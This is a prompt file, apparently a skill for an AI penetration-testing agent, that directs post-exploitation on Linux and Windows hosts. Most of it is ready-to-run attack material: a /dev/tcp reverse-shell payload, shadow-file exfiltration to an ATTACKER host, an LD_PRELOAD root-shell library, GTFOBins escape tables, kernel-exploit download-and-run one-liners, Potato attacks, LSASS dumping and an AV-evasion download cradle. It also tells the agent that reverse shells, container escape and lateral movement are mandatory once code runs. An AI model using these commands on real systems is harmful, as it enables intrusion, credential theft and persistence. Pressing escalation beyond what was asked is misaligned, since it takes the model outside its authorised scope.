

# Post-Exploitation Workflow

You are an expert post-exploitation operator. You have initial access to a target system. Your goal: escalate privileges, harvest credentials, enumerate the local environment, assess persistence mechanisms, and prepare for lateral movement — all while documenting findings for the security report.

**Request:** $ARGUMENTS

---

## CHAIN COMMITMENTS — DECLARE BEFORE STARTING

Read this before executing any workflow phase. Commit to MANDATORY chains before your first tool call.

| Trigger | Chain | Mandatory? |
| --- | --- | --- |
| Command execution confirmed but NO interactive session yet | `/reverse-shell` | **MANDATORY** — command exec is not a shell; get a real session |
| RCE inside a container (Docker/K8s markers) | `/container-k8s-security` | **MANDATORY** — assess container escape |
| Internal host reachable WITH code execution | `/lateral-movement` | **MANDATORY** — turn reachability into actual movement |
| After `session(action="complete")` | `/gh-export` | OPTIONAL — user request only |
| Shell/RCE access achieved via credentials | `/credential-audit` | OPTIONAL |
| Internal network reachable (recon only, no code exec) | `/network-assess` | OPTIONAL |
| AD domain detected | `/ad-assessment` | OPTIONAL |
| Architecture review needed | `/threat-modeling` | OPTIONAL |

> **Command execution is NOT the finish line.** A confirmed RCE opens hard gates for
> `/reverse-shell` (+ `/container-k8s-security` in a container, + `/lateral-movement`
> when internal hosts are reachable). Do not file "RCE confirmed" and move on — escalate.
>
> **Blind / no-TTY exec (SQLi → `COPY TO/FROM PROGRAM`, error-oracle exfil, etc.):** you
> still have code execution — enumerate by wrapping each command in the exfil oracle,
> then escalate to a real session: write a reverse-shell payload
> (`bash -i >& /dev/tcp/<listener>/<port> 0>&1`), drop an SSH key, or add a cron. If the
> target has no egress to a listener, use the OOB collaborator
> (`session(action='oob_start')` → `session(action='oob_mint')`) as the callback
> rendezvous — or document precisely why an interactive shell is unreachable (that
> documentation satisfies the gate; a shrug does not).

> **Invoking a chained skill:** follow the per-client invocation table in the project's CLAUDE.md / AGENTS.md — do not hard-code client-specific syntax here.


**Logging:** Before invoking any skill above, call `session(action="set_skill", options={"skill":"<name>","reason":"<why>","chained_from":"<this-skill>"})` — this writes the SKILL_CHAIN entry to pentest.log.

---

## Tools Available

| Tool | Use for |
|------|---------|
| `session(action="start", options={...})` | Define target, scope, depth, and hard limits — **always call this first** |
| `session(action="complete", options={...})` | Mark the scan done and write final notes |
| `kali(command=...)` | Kali tools: impacket-scripts, netexec, john, smbclient, ldapsearch, enum4linux-ng, and all standard Linux commands |
| `http(action="request", ...)` | Raw HTTP for web-based post-exploitation (webshells, management interfaces) |
| `http(action="save_poc", ...)` | Save a confirmed exploit as a raw `.http` file in `pocs/` |
| `report(action="finding", data={...})` | Log a confirmed vulnerability with evidence to findings.json |
| `report(action="diagram", data={...})` | Save a Mermaid diagram to findings.json |
| `report(action="dashboard", data={"port": 7777})` | Serve dashboard.html at localhost:7777 |
| `report(action="note", data={...})` | Write a reasoning note or decision to the session log |

---

## ATT&CK Coverage

| Tactic | Techniques | Phase |
|--------|-----------|-------|
| **Privilege Escalation (TA0004)** | T1548.001 Setuid/Setgid, T1548.002 UAC Bypass, T1068 Exploitation for Priv Esc, T1134 Access Token Manipulation | Phase 2 |
| **Persistence (TA0003)** | T1053 Scheduled Tasks, T1136 Create Account, T1543 System Services, T1547 Boot Autostart | Phase 4 |
| **Discovery (TA0007)** | T1057 Process, T1083 File/Dir, T1087 Account, T1016 Network Config, T1082 System Info | Phase 1 |
| **Credential Access (TA0006)** | T1003 OS Credential Dumping, T1552.001 Credentials in Files, T1555 Credentials from Stores, T1552.004 Private Keys | Phase 3 |
| **Defense Evasion (TA0005)** | T1574.001 DLL Search Order Hijacking, T1574.002 DLL Side-Loading | Phase 2 |

---

## Depth Presets

| Depth | What runs | Default limits |
|-------|-----------|----------------|
| `quick` | Manual checks only (id, sudo -l, SUID, whoami /priv, uname -r) + decision tree exploitation + credential search | $0.10 | 15 min | 10 calls |
| `standard` | LinPEAS/WinPEAS full enumeration + targeted exploitation + hash extraction + credential harvesting | $0.50 | 45 min | 25 calls |
| `thorough` | Standard + kernel exploits + container escapes + token manipulation + persistence audit + pivot prep | unlimited | unlimited | unlimited |

---

## Privilege Escalation Decision Tree

Check highest-impact, lowest-effort paths first.

**Linux:**
```
1. `id` + `sudo -l`
   +-- NOPASSWD entry? ---------> Sudo Rule Exploitation (Phase 2A)
   +-- wildcard in sudo rule? --> Sudo Wildcard Abuse (Phase 2A)
   +-- env_keep LD_PRELOAD? ----> env_keep Exploitation (Phase 2A)
2. `find / -perm -4000 -type f 2>/dev/null`
   +-- GTFOBins binary? --------> GTFOBins Chains (Phase 2B)
   +-- Custom SUID binary? -----> strings/ltrace analysis
3. `uname -r` — check kernel
   +-- 5.8-5.16? ---------------> DirtyPipe CVE-2022-0847
   +-- < 6.4 with nf_tables? ---> Netfilter CVE-2023-32233
   +-- Ubuntu OverlayFS? -------> GameOver(lay) CVE-2023-2640/32629
4. `getcap -r / 2>/dev/null`
   +-- cap_setuid? --------------> Direct UID change
5. Container checks
   +-- docker.sock? ------------> Docker Socket Abuse (Phase 2D)
   +-- CAP_SYS_ADMIN? ----------> cgroup/mount escape (Phase 2D)
6. `cat /etc/crontab; ls -la /etc/cron*`
   +-- Writable cron script? ---> Replace with reverse shell
```

**Windows:**
```
1. `whoami /priv`
   +-- SeImpersonate? ----------> Potato Attacks (Phase 2C)
   +-- SeDebugPrivilege? -------> LSASS dump / process injection
   +-- SeBackupPrivilege? ------> SAM/SYSTEM/NTDS extraction
   +-- SeRestorePrivilege? -----> DLL overwrite
2. `wmic service get name,pathname | findstr /v system32`
   +-- Unquoted path? ----------> Unquoted service path exploit
   +-- Writable binary dir? ----> Service binary replacement
3. DLL hijacking — writable PATH dir? --> Phase 2E
4. AlwaysInstallElevated = 1? ---------> MSI privesc
5. Medium integrity + auto-elevate? ---> UAC bypass (fodhelper, eventvwr)
```

---

## Workflow

### Before running any tool

If OS or access method not specified, ask:

> **Target:** `<target>` | **OS:** `<linux/windows>` | **Access:** `<shell/ssh/rdp/winrm>` | **User:** `<username>`
> **Depth?** `quick` ($0.10 · 15m · 10) | `standard` ($0.50 · 45m · 25) | `thorough` (unlimited)
> Any specific objectives? (privesc, credentials, pivot)

### Phase 0 — Scope & Setup

0. `session(action="start", options={...})` with target, depth, limits
1. `report(action="dashboard", data={"port": 7777})`
2. `report(action="note", data={...})` — record OS, access method, current user/privileges
3. **Windows standard+ only** — pre-stage WinPEAS in Kali:
```
kali(command="curl -sL https://github.com/peass-ng/PEASS-ng/releases/latest/download/winPEASx64.exe -o /tmp/winPEASx64.exe && ls -la /tmp/winPEASx64.exe")
```

### Phase 1 — Local Enumeration

#### `quick` depth — Decision Tree Inputs Only

Collect just enough to walk the Privilege Escalation Decision Tree. No full enumeration.

**Linux:**
```
kali(command="ssh user@TARGET 'id && sudo -l 2>&1'")
kali(command="ssh user@TARGET 'find / -perm -4000 -type f 2>/dev/null | head -30'")
kali(command="ssh user@TARGET 'uname -r && cat /etc/os-release 2>/dev/null | head -5'")
```

**Windows:**
```
kali(command="nxc smb TARGET -u USER -p PASS -x 'whoami /priv'")
kali(command="nxc smb TARGET -u USER -p PASS -x 'whoami /all'")
```

**Cross-user lateral movement** — before escalating to root, check if you can pivot to another user on the same host who has higher privileges or different access:
- List all users and their home directories — look for readable scripts, config files, writable logs, shared directories
- Check what processes other users are running — any script or service that reads from a file you can write to is an injection vector
- If another user has a script that processes a log file, config file, or queue that you can append to, craft input that exploits how the script parses it (command injection via unsanitized fields, path traversal, etc.)
- Check `sudo -l` for the current user — sometimes you can sudo as a non-root user first, then escalate from them

After these, proceed directly to Phase 2 using the decision tree.

---

#### `standard` / `thorough` depth — PEAS-First Enumeration

Run PEAS first for comprehensive coverage. PEAS replaces ~15 manual enumeration commands with a single tool that checks hundreds of privesc vectors.

##### Linux — Run LinPEAS

```
kali(command="ssh user@TARGET 'curl -sL https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh' 2>&1 | head -2000")
```

If curl is unavailable, transfer via base64 or SCP:
```
kali(command="curl -sL https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | base64 -w0 > /tmp/lp.b64 && ssh user@TARGET 'cat | base64 -d | sh' < /tmp/lp.b64 2>&1 | head -2000")
```

##### Windows — Run WinPEAS

**Method 1 — SMB upload (preferred):**
```
kali(command="nxc smb TARGET -u USER -p PASS --put-file /tmp/winPEASx64.exe 'C:\\Users\\Public\\winPEASx64.exe'")
kali(command="nxc smb TARGET -u USER -p PASS -x 'C:\\Users\\Public\\winPEASx64.exe quiet servicesinfo applicationsinfo windowscreds notcolor' 2>&1 | head -2000")
```

**Method 2 — PowerShell download (if SMB fails):**
```
kali(command="nxc smb TARGET -u USER -p PASS -x 'powershell -ep bypass -c \"IWR -Uri https://github.com/peass-ng/PEASS-ng/releases/latest/download/winPEASx64.exe -OutFile C:\\Users\\Public\\wp.exe; C:\\Users\\Public\\wp.exe quiet notcolor\"' 2>&1 | head -2000")
```

**Method 3 — PowerShell script (no binary drop, AV evasion):**
```
kali(command="nxc smb TARGET -u USER -p PASS -x 'powershell -ep bypass -c \"IEX(New-Object Net.WebClient).DownloadString(\\\"https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1\\\")\"' 2>&1 | head -2000")
```

##### Reading PEAS Output

PEAS produces thousands of lines. Focus on marked/highlighted findings:

**LinPEAS key sections:**

| Section header | What to look for | Feeds into |
|----------------|-----------------|------------|
| `══╣ Sudo` | NOPASSWD entries, env_keep, wildcards | Phase 2A — Sudo exploitation |
| `══╣ SUID` | Known GTFOBins binaries, custom SUID | Phase 2B — GTFOBins chains |
| `══╣ Capabilities` | cap_setuid, cap_dac_override, cap_sys_admin | Phase 2B — Capability abuse |
| `══╣ Cron` | Writable cron scripts, wildcard in cron paths | Decision tree step 6 |
| `══╣ Container` | Docker socket, LXC, cgroup writable | Phase 2D — Container escape |
| `══╣ Users Information` | docker/lxd/disk/adm group membership | Direct privesc via group |
| `══╣ Interesting Files` | .env, config files with passwords, SSH keys | Phase 3 — Credential harvesting |
| `══╣ Network` | Listening services, internal connections | Phase 5 — Pivot prep |
| `══╣ Processes` | Processes running as root, writable binaries | Service exploitation |

**WinPEAS key sections:**

| Section header | What to look for | Feeds into |
|----------------|-----------------|------------|
| `════════╣ Token Privileges` | SeImpersonate, SeDebug, SeBackup | Phase 2C — Potato/token attacks |
| `════════╣ Services Information` | Unquoted paths, writable binary dirs | Service path hijacking |
| `════════╣ Applications Information` | Outdated software with known CVEs | **Search Exploit-DB for each app + version** (see below) |
| `════════╣ Windows Credentials` | Saved creds, WiFi, DPAPI, AutoLogon | Phase 3 — Credential harvesting |
| `════════╣ Interesting Files` | Config files, .env, web.config | Phase 3 — Credential harvesting |
| `════════╣ Scheduled Tasks` | Writable task binaries/scripts | Task hijacking |
| `════════╣ DLL Hijacking` | Writable PATH directories | Phase 2E — DLL hijacking |
| `════════╣ Network` | Listening ports, connections | Phase 5 — Pivot prep |
| `════════╣ Users` | Admin group, logged-in users | Lateral movement targets |

##### Installed Software → Local Privilege Escalation

**For every application and version listed in WinPEAS (or LinPEAS) output**, search for local privilege escalation exploits. Third-party software is one of the most common privesc vectors — the application may run as SYSTEM, have writable directories, or have known vulnerabilities:

```
# List installed software with versions
kali(command="ssh user@TARGET 'dir \"C:\\Program Files\" && dir \"C:\\Program Files (x86)\"'")
# Or on Linux:
kali(command="ssh user@TARGET 'dpkg -l 2>/dev/null || rpm -qa 2>/dev/null' | head -50")

# For each application + version, search Exploit-DB
kali(command="searchsploit paperstream")
kali(command="searchsploit 'application name' privilege escalation local")
```

If an exploit is found, download and run it — many are PowerShell scripts or require placing a malicious DLL in a writable application directory.

##### Targeted Follow-Up

Run only if PEAS output was truncated or a section needs deeper inspection:
```
# Linux — if capabilities section was empty/truncated
kali(command="ssh user@TARGET 'getcap -r / 2>/dev/null'")

# Linux — clean sudo -l for decision tree (if PEAS sudo section unclear)
kali(command="ssh user@TARGET 'sudo -l 2>&1'")

# Linux — full cron detail if PEAS cron section was truncated
kali(command="ssh user@TARGET 'cat /etc/crontab 2>/dev/null && ls -la /etc/cron.d/ /etc/cron.daily/ 2>/dev/null'")

# Windows — clean whoami /priv for Potato selection
kali(command="nxc smb TARGET -u USER -p PASS -x 'whoami /priv'")
```

After enumeration: `report(action="note", data={...})` with PEAS highlights + `report(action="diagram", data={...})` with system topology.

---

### Phase 2 — Privilege Escalation

#### Phase 2A — Sudo Rule Parsing and Exploitation

```
kali(command="ssh user@TARGET 'sudo -l 2>&1'")
```

**Sudo wildcard abuse** (e.g., `sudo tar cf /dev/null /var/log/*`):
```
kali(command="ssh user@TARGET 'cd /var/log && echo \"\" > \"--checkpoint=1\" && echo \"\" > \"--checkpoint-action=exec=sh shell.sh\" && echo -e \"#!/bin/bash\ncp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash\" > shell.sh && chmod +x shell.sh'")
```

**env_keep exploitation** — if `sudo -l` shows `env_keep += LD_PRELOAD`:
```
kali(command="ssh user@TARGET 'cat > /tmp/evil.c << \"CEOF\"
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
void _init() { unsetenv(\"LD_PRELOAD\"); setuid(0); setgid(0); system(\"/bin/bash -p\"); }
CEOF
gcc -fPIC -shared -nostartfiles -o /tmp/evil.so /tmp/evil.c
sudo LD_PRELOAD=/tmp/evil.so <allowed_command>'")
```

Other exploitable env_keep variables: `LD_LIBRARY_PATH` (place malicious .so in writable path), `PYTHONPATH` (place malicious module that sudo Python script imports).

#### Phase 2B — GTFOBins Exploitation

##### Step 1 — Dynamic cross-reference

Cross-reference every SUID binary, sudo-allowed binary, and capability binary against the full GTFOBins database:

```
kali(command="ssh user@TARGET 'find / -perm -4000 -type f 2>/dev/null' > /tmp/suid_bins.txt && curl -s https://gtfobins.github.io/index.json | python3 -c '
import json, sys, os
gtfo = {b[\"name\"]: b.get(\"functions\", []) for b in json.load(sys.stdin)}
with open(\"/tmp/suid_bins.txt\") as f:
    for line in f:
        path = line.strip()
        name = os.path.basename(path)
        if name in gtfo:
            funcs = gtfo[name]
            tags = []
            if any(\"suid\" in str(fn).lower() for fn in funcs): tags.append(\"SUID\")
            if any(\"sudo\" in str(fn).lower() for fn in funcs): tags.append(\"sudo\")
            if any(\"capabilities\" in str(fn).lower() for fn in funcs): tags.append(\"cap\")
            print(f\"MATCH: {path} [{\" \".join(tags or [\"check\"])}] -> https://gtfobins.github.io/gtfobins/{name}/\")
' 2>/dev/null")
```

For sudo-allowed binaries:
```
kali(command="ssh user@TARGET 'sudo -l 2>&1' | grep -oP '\\S+$' | while read bin; do name=$(basename \"$bin\"); curl -sf \"https://gtfobins.github.io/gtfobins/$name/\" > /dev/null && echo \"MATCH: $bin -> https://gtfobins.github.io/gtfobins/$name/\"; done")
```

For capability binaries:
```
kali(command="ssh user@TARGET 'getcap -r / 2>/dev/null' | while read line; do bin=$(echo \"$line\" | awk '{print $1}'); name=$(basename \"$bin\"); caps=$(echo \"$line\" | grep -oP 'cap_\\w+'); curl -sf \"https://gtfobins.github.io/gtfobins/$name/\" > /dev/null && echo \"MATCH: $bin [$caps] -> https://gtfobins.github.io/gtfobins/$name/\"; done")
```

##### Step 2 — Exploitation reference table

**Always check the GTFOBins page for the matched binary** — the tables below are common examples, NOT an exhaustive list. GTFOBins is continuously updated with new binaries and techniques. If a binary matched in Step 1 but isn't in these tables, visit the GTFOBins URL from the match output for the exact exploit command.

For each match, use the appropriate exploitation technique. Organized by context:

**Sudo NOPASSWD — shell escape / command execution:**

| Binary | Exploit |
|--------|---------|
| `ash`/`bash`/`csh`/`dash`/`ksh`/`sh`/`zsh` | `sudo <shell>` |
| `env` | `sudo env /bin/bash` |
| `find` | `sudo find / -name x -exec /bin/bash \;` |
| `flock` | `sudo flock -u / /bin/bash` |
| `nice` | `sudo nice /bin/bash` |
| `stdbuf` | `sudo stdbuf -i0 /bin/bash` |
| `timeout` | `sudo timeout --foreground 9999 /bin/bash` |
| `xargs` | `sudo xargs -a /dev/null /bin/bash` |
| `expect` | `sudo expect -c 'spawn /bin/bash; interact'` |
| `script` | `sudo script -c /bin/bash /dev/null` |
| `vi`/`vim` | `sudo vim -c ':!/bin/bash'` |
| `less` | `sudo less /etc/shadow` then `!bash` |
| `more` | `sudo more /etc/shadow` then `!bash` |
| `man` | `sudo man man` then `!bash` |
| `ftp` | `sudo ftp` then `!bash` |
| `ssh` | `sudo ssh -o ProxyCommand=';bash 0<&2 1>&2' x` |
| `git` | `sudo git help config` then `!bash` |
| `mysql` | `sudo mysql -e '\! /bin/bash'` |
| `psql` | `sudo psql -c '\\! /bin/bash'` |
| `sqlite3` | `sudo sqlite3 /dev/null '.shell /bin/bash'` |
| `nmap` | `sudo nmap --interactive` then `!sh` (< 5.35); or `--script` (see below) |
| `perl` | `sudo perl -e 'exec "/bin/bash";'` |
| `python`/`python3` | `sudo python3 -c 'import os; os.system("/bin/bash")'` |
| `ruby` | `sudo ruby -e 'exec "/bin/bash"'` |
| `lua` | `sudo lua -e 'os.execute("/bin/bash")'` |
| `node` | `sudo node -e 'require("child_process").spawn("/bin/bash",{stdio:[0,1,2]})'` |
| `php` | `sudo php -r 'system("/bin/bash");'` |
| `awk`/`gawk`/`mawk` | `sudo awk 'BEGIN {system("/bin/bash")}'` |
| `sed` | `sudo sed -n '1e exec /bin/bash 1>&0' /etc/hosts` |
| `ed` | `sudo ed` then `!/bin/bash` |
| `tar` | `sudo tar cf /dev/null f --checkpoint=1 --checkpoint-action=exec=/bin/bash` |
| `zip` | `sudo zip /tmp/x.zip /etc/hosts -T --unzip-command="sh -c /bin/bash"` |
| `rsync` | `sudo rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null` |
| `cp` | `sudo cp /bin/bash /tmp/rootbash && sudo chmod +s /tmp/rootbash && /tmp/rootbash -p` |
| `mv` | Overwrite /etc/passwd with modified copy |
| `tee` | `echo 'hacker::0:0::/root:/bin/bash' \| sudo tee -a /etc/passwd` |
| `dd` | `echo 'hacker::0:0::/root:/bin/bash' \| sudo dd of=/etc/passwd oflag=append conv=notrunc` |
| `wget` | `sudo wget --post-file=/etc/shadow http://ATTACKER/` (exfil) or overwrite passwd |
| `curl` | `sudo curl file:///etc/shadow -o /tmp/shadow` (read) or `--upload-file` (exfil) |
| `docker` | `sudo docker run -v /:/hostfs --rm alpine chroot /hostfs bash` |
| `lxc`/`lxd` | Create privileged container with host mount |
| `systemctl` | `sudo systemctl` then `!bash` (pager escape) |
| `journalctl` | `sudo journalctl` then `!bash` (pager escape) |
| `service` | `sudo service ../../tmp/shell` (path traversal to script) |
| `doas` | `sudo doas /bin/bash` |

**SUID binary exploitation** — run with `-p` flag to preserve elevated privileges:

| Binary | Exploit |
|--------|---------|
| `bash` | `/path/to/bash -p` |
| `find` | `/path/to/find . -exec /bin/bash -p \;` |
| `env` | `/path/to/env /bin/bash -p` |
| `python`/`python3` | `/path/to/python3 -c 'import os; os.setuid(0); os.system("/bin/bash -p")'` |
| `perl` | `/path/to/perl -e 'exec "/bin/bash -p";'` |
| `php` | `/path/to/php -r 'pcntl_exec("/bin/bash",["-p"]);'` |
| `node` | `/path/to/node -e 'process.setuid(0); require("child_process").execSync("/bin/bash -p",{stdio:"inherit"})'` |
| `vim` | `/path/to/vim -c ':!/bin/bash -p'` |
| `nmap` | `echo 'os.execute("/bin/bash -p")' > /tmp/x.nse && /path/to/nmap --script=/tmp/x.nse` |
| `cp`/`mv` | Copy modified /etc/passwd over original |
| `dd` | Read /etc/shadow: `LFILE=/etc/shadow; /path/to/dd if=$LFILE` |
| `tee` | Write to /etc/passwd: `echo 'root2::0:0::/root:/bin/bash' \| /path/to/tee -a /etc/passwd` |
| `wget` | Overwrite /etc/passwd: `/path/to/wget http://ATTACKER/passwd -O /etc/passwd` |
| `ar` | File read: `/path/to/ar r /dev/null /etc/shadow && cat /dev/null` |
| `base64` | File read: `/path/to/base64 /etc/shadow \| base64 -d` |
| `taskset` | `/path/to/taskset 1 /bin/bash -p` |
| `start-stop-daemon` | `/path/to/start-stop-daemon -n x -S -x /bin/bash -- -p` |
| `strace` | `/path/to/strace -o /dev/null /bin/bash -p` |
| `ltrace` | `/path/to/ltrace -b -L /bin/bash -p` |
| `gdb` | `/path/to/gdb -nx -ex 'python import os; os.setuid(0)' -ex '!bash -p' -ex quit` |

**Capability exploitation** — when `getcap` shows capabilities on a binary:

| Capability | Binary examples | Exploit |
|------------|----------------|---------|
| `cap_setuid+ep` | python, perl, php, node, ruby | `python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'` |
| `cap_setuid+ep` | gdb | `gdb -nx -ex 'python import os; os.setuid(0)' -ex '!bash' -ex quit` |
| `cap_dac_read_search+ep` | tar | `tar czf /tmp/shadow.tar.gz /etc/shadow && tar xzf /tmp/shadow.tar.gz` |
| `cap_dac_read_search+ep` | base64 | `base64 /etc/shadow \| base64 -d` |
| `cap_dac_override+ep` | vim, python, perl | Write to /etc/passwd or /etc/shadow |
| `cap_sys_admin+ep` | python | Mount host filesystem: `python3 -c 'import os; os.system("mount /dev/sda1 /mnt")'` |
| `cap_sys_ptrace+ep` | python, gdb, strace | Inject into root process |
| `cap_net_raw+ep` | tcpdump, python | Sniff network traffic |

##### Step 3 — Fallback for unknown binaries

If a SUID/sudo/capability binary is not in the tables above, check GTFOBins directly:
```
kali(command="curl -sf 'https://gtfobins.github.io/gtfobins/BINARY_NAME/' | grep -oP '(?<=<code>).*?(?=</code>)' | head -20")
```

Or use `http(action="request", ...)`:
```
http(action="request", url="https://gtfobins.github.io/gtfobins/BINARY_NAME/", method="GET")
```

Parse the page for exploitation techniques under the relevant context (SUID, Sudo, Capabilities). Each GTFOBins page lists exploitation commands per context.

If the binary is not on GTFOBins, think about what it **can do** — not every sudo binary is a shell escape. Some are more valuable for other reasons:

**Debugging/memory tools** (gcore, gdb, strace, ltrace, perf, valgrind) — if you can sudo these, you can **dump the memory of any privileged process**. Look for processes running as root that might hold credentials (password managers, key stores, database connectors, web apps with DB passwords in memory):
```
# Find interesting privileged processes
ps -ef | grep -E "root.*(pass|secret|key|vault|store|db|mysql|postgres)"
# Dump process memory with gcore
sudo gcore PID
# Search the dump for credentials
strings core.PID | grep -iE "password|secret|token|key" | head -20
# Or with gdb
sudo gdb -p PID -batch -ex "gcore /tmp/dump" -ex quit
```

**File manipulation tools** (cp, mv, dd, tee, wget, curl) — if you can sudo these, you can read/write privileged files (shadow, passwd, SSH keys, configs).

**Package/service tools** (apt, pip, systemctl, service) — if you can sudo these, you can install backdoors or restart services with modified configs.

For any unlisted binary, analyze what it does:
```
kali(command="ssh user@TARGET 'strings /path/to/binary | grep -iE \"system|exec|popen|/bin/\" | head -20'")
kali(command="ssh user@TARGET 'ltrace /path/to/binary 2>&1 | head -30'")
kali(command="ssh user@TARGET 'strace -f /path/to/binary 2>&1 | grep -iE \"exec|open|connect\" | head -30'")
```

**If strings/ltrace reveals the binary calls commands using relative paths** (e.g. calls `chmod`, `setuid`, `service`, `curl` without `/usr/bin/` prefix), this is a **PATH hijack** — one of the most common SUID privesc techniques:
1. Create a malicious script with the same name as the relative command (e.g. `/tmp/setuid` containing `/bin/sh`)
2. Make it executable
3. Prepend your directory to PATH: `export PATH=/tmp:$PATH`
4. Run the SUID binary — it executes your script with root privileges instead of the real command

Also check if the binary calls `system()` (which uses PATH) vs `execve()` (which uses absolute paths) — only `system()` is vulnerable to PATH hijack.

#### Linux Kernel Exploit Reference Table

Only attempt when simpler methods fail. Pre-check: `uname -r && gcc --version && which curl wget`

**Always search dynamically first** — new kernel CVEs are published constantly. These examples show the pattern, not an exhaustive list:
```
kali(command="searchsploit linux kernel $(ssh user@TARGET 'uname -r | cut -d- -f1')")
kali(command="searchsploit privilege escalation linux $(ssh user@TARGET 'uname -r | cut -d. -f1,2')")
```

**Well-known examples** (to demonstrate the download → compile → run pattern):

| CVE | Name | Affected Kernels | Exploit |
|-----|------|-----------------|---------|
| CVE-2022-0847 | **DirtyPipe** | 5.8 - 5.16.11, 5.15.25, 5.10.102 | `curl -sL https://raw.githubusercontent.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit/main/exploit.c -o /tmp/dp.c && gcc /tmp/dp.c -o /tmp/dp && /tmp/dp /etc/passwd 1 ...` |
| CVE-2016-5195 | **DirtyCow** | 2.6.22 - 4.8.3 | `curl -sL https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c -o /tmp/dc.c && gcc -pthread /tmp/dc.c -o /tmp/dc -lcrypt && /tmp/dc newpassword` |
| CVE-2021-4034 | **PwnKit** | polkit < 0.120 (pre-Jan 2022) | `curl -sL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o /tmp/PwnKit && chmod +x /tmp/PwnKit && /tmp/PwnKit` |
| CVE-2023-32233 | **Netfilter** | 5.1 - 6.4 (nf_tables + user ns) | `git clone https://github.com/Liuk3r/CVE-2023-32233 /tmp/nf && cd /tmp/nf && make && ./exploit` |
| CVE-2023-0386 | **OverlayFS** | 5.11 - 6.2 (user ns + FUSE) | `git clone https://github.com/xkaneiki/CVE-2023-0386 /tmp/ovl && cd /tmp/ovl && make all && ./fuse ./ovlcap/lower ./gc &` |
| CVE-2023-2640/32629 | **GameOver(lay)** | Ubuntu 20.04/22.04/22.10/23.04 | `unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*d l/ && setcap cap_setuid+eip l/python3; mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'` |

#### Phase 2C — Windows Privilege Escalation

##### Potato Attacks

Use when `whoami /priv` shows `SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege`.

**Always search for the latest Potato variants** — new ones are published regularly. Search dynamically first:
```
kali(command="searchsploit potato privilege escalation windows")
kali(command="searchsploit seimpersonate")
```

**Download the binary to the target** — serve from Kali via HTTP or SMB, then fetch on target:
```
# Kali: serve files via HTTP
kali(command="cd /tmp && wget -q https://github.com/BeichenDream/GodPotato/releases/latest/download/GodPotato-NET4.exe && python3 -m http.server 8888 &")

# Target: download via PowerShell or certutil
powershell -c "Invoke-WebRequest http://KALI_IP:8888/GodPotato-NET4.exe -OutFile C:\temp\gp.exe"
certutil -urlcache -split -f http://KALI_IP:8888/GodPotato-NET4.exe C:\temp\gp.exe
```

**Well-known Potato variants** (examples — new variants are published regularly, always search):

| Attack | OS Range | Command |
|--------|---------|---------|
| **GodPotato** | Server 2012-2022, Win 8.1-11 | `GodPotato-NET4.exe -cmd "cmd /c whoami"` |
| **PrintSpoofer** | Win 10, Server 2016/2019 | `PrintSpoofer64.exe -i -c cmd` |
| **JuicyPotato** | Server 2008-2016, Win 7-10 pre-1809 | `JuicyPotato.exe -l 1337 -p cmd.exe -a "/c whoami" -t *` |
| **RoguePotato** | Win 10 1809+, Server 2019 | `RoguePotato.exe -r ATTACKER_IP -e "cmd /c whoami" -l 9999` |
| **SweetPotato** | Win 10, Server 2016/2019 | `SweetPotato.exe -e EfsRpc -p cmd.exe -a "/c whoami"` |

Selection: GodPotato first (broadest), PrintSpoofer on 2016/2019, JuicyPotato on pre-1809, RoguePotato when JuicyPotato fails on 1809+. **If all fail**, search for newer variants — `CoercedPotato`, `LocalPotato`, `SharpEfsPotato`, etc.

**JuicyPotato CLSID**: requires a valid CLSID for the target OS. Look up at https://ohpe.it/juicy-potato/CLSID/ or try `{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}` (BITS) as a common default.

##### Windows Token Manipulation

**These are well-known privilege-to-attack mappings** — but new token abuse techniques emerge. For any privilege not listed, search `searchsploit <privilege_name>` and check HackTricks:

| Privilege | Exploitation | Tool/Command |
|-----------|-------------|-------------|
| **SeImpersonate** | Potato attacks | See table above |
| **SeDebugPrivilege** | LSASS dump, process injection | `procdump64.exe -accepteula -ma lsass.exe lsass.dmp` or `nxc smb TARGET -u USER -p PASS -M lsassy` |
| **SeBackupPrivilege** | Read SAM/SYSTEM/NTDS.dit | `reg save HKLM\SAM sam.bak && reg save HKLM\SYSTEM system.bak` then `impacket-secretsdump -sam sam.bak -system system.bak LOCAL` |
